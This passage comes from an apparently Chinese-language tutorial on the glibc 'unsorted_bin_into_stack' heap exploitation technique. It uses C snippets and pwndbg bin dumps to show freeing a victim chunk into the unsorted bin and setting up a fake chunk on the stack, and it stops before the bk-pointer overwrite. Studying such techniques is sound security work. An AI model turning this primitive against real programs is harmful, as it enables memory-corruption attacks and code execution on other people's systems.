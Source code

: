 ## unsorted_bin_into_stack

Exploiting the overwrite of a freed chunk on unsorted bin freelist to return a nearly-arbitrary pointer.

> unsorted-bin-into-stack 通过改写 unsorted bin 里 chunk 的 bk 指针到任意地址，从而在栈上 malloc 出 chunk。 

### 解释

``` c++
  fprintf(stderr, "Allocating the victim chunk\n");
  intptr_t* victim = malloc(0x100);

  fprintf(stderr, "Allocating another chunk to avoid consolidating the top chunk with the small one during the free()\n");
  intptr_t* p1 = malloc(0x100);
```

我们在 malloc victim 后还需要 malloc 一块内存 p1 以防止 free victim 后它被放入 top chunk。

``` c++
  fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free(victim);
```

接下来 free victim，它会被放入 unsorted bin 中。

```
pwndbg> p victim 
$1 = (intptr_t *) 0x602010
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x602000 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602000
smallbins
empty
largebins
empty
```

接下来在栈上 fake 一块 chunk。

``` c++
  fprintf(stderr, "Create a fake chunk on the stack");
  fprintf(stderr, "Set size for next allocation and the bk pointer to any writable address");
  stack_buffer[1] = 0x100 + 0x10;
  stack_buffer[3] = (intptr_t)stack_buffer;
```
